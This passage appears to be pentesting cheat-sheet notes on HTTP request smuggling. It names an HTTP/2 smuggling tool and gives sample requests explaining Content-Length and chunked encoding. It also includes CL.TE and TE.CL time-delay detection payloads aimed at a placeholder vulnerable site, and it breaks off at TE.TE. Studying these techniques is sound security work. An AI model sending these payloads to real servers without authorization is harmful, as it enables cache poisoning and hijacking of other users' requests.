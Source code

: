         # HTTP/2
        # https://github.com/BishopFox/h2csmuggler
        ```
        
    - Samples
        
        ```jsx
        - The Content-Length header is straightforward: it specifies the length of the message body in bytes. For example:
        
            POST /search HTTP/1.1
            Host: normal-website.com
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 11
        
            q=smuggling
        
        - The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:
        
            POST /search HTTP/1.1
            Host: normal-website.com
            Content-Type: application/x-www-form-urlencoded
            Transfer-Encoding: chunked
        
            b
            q=smuggling
            0
        
        • CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
           ◇ Find - time delay:
            POST / HTTP/1.1
            Host: vulnerable-website.com
            Transfer-Encoding: chunked
            Content-Length: 4
        
            1
            A
            X
        • TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
           ◇ Find time delay:
            POST / HTTP/1.1
            Host: vulnerable-website.com
            Transfer-Encoding: chunked
            Content-Length: 6
        
            0
        
            X
        • TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.
        